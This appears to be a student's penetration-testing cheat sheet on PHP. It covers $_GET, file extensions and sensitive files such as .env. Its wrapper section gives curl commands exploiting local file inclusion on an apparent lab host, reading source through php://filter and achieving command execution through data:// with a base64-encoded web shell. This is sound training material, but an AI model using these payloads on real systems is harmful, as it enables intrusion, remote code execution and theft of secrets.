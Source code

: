 # PHP



PHP uses `$_GET` to manage variables via a GET request.
https://www.php.net/manual/en/reserved.variables.get.php


## File extension
- `.phtml`was the standard file extension for PHP 2 programs
- `.php3` took over for PHP 3
- When PHP 4 came out they switched to a straight `.php`



## Interesting Files

`configuration.php`

`.env`
file commonly used in PHP applications to store environment variable values.





## Wrappers


###  `php://filter` wrapper can be used to include the contents of a file
```

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php


curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
# then the pass the result to bas64 -d


```



### `data:/`/ wrapper to achieve code execution

```

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"


echo -n '<?php echo system($_GET["cmd"]);?>' | base64

curl http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```







